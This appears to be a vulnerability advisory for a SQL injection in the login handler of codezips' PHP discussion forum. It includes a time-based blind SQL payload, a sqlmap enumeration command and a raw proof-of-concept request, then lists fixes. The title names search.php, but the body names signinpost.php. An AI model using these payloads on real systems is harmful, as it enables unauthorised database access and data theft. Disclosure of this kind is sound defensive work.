


# Technical Discussion Forum Using PHP With Source Code  V1.0 search.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Vendor Homepage

- https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/

## Software Link

- https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```



```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.